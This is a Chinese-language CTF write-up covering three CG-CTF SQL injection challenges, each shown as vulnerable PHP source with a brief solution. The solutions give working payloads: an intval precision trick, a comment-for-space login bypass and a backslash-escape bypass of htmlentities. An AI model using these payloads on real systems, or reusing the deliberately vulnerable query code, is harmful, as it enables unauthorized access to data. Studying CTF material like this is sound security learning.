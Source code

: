 # sql注入做题总结

### 1.CG-CTF:MYSQL
```php
<?php
  $id = intval($_GET[id]);
  $query = @mysql_fetch_array(mysql_query("select content from ctf2 where id='$id'"));
  if ($_GET[id]==1024) {
      echo "<p>no! try again</p>";
  }
  else{
    echo($query[content]);
  }
}
?>
```
    wp：精度问题，id=1024.1得到flag
    
### 2.CG-CTF:SQL注入1
```php
if($_POST[user] && $_POST[pass]) {
    mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $user = trim($_POST[user]);
  $pass = md5(trim($_POST[pass]));
  $sql="select user from ctf where (user='".$user."') and (pw='".$pass."')";
    echo '</br>'.$sql;
  $query = mysql_fetch_array(mysql_query($sql));
  if($query[user]=="admin") {
      echo "<p>Logged in! flag:******************** </p>";
  }
  if($query[user] != "admin") {
    echo("<p>You are not admin!</p>");
  }
}
echo $query[user];
?>
```
    wp:直接构造and 1 = 1的结构，注意需要替代空格
    user=admin')/**/and/**/1=1#&pass=123
    
### 3.CG-CTF:SQLInjection
```php
<?php
function clean($str){
  if(get_magic_quotes_gpc()){
    $str=stripslashes($str);
  }
  return htmlentities($str, ENT_QUOTES);
}
$username = @clean((string)$_GET['username']);
$password = @clean((string)$_GET['password']);

$query='SELECT * FROM users WHERE name=\''.$username.'\' AND pass=\''   .$password.'\';';
?>
```
    wp:clean函数将’和“过滤了所以重点就是将username后面的'转义
    payload为?username=admin \&password=or 1=1#
    这样构造的语句就成了select * from users where name=' admin \' and pass=' or 1=1#';
    也就是把name字段变成了 admin ' and pass=
    整个语句最后理解为select * from users where name=***** or 1=1;
    这样不管查询了什么名称，都是为真的语句。也就是把数据表中的所有数据全部查出
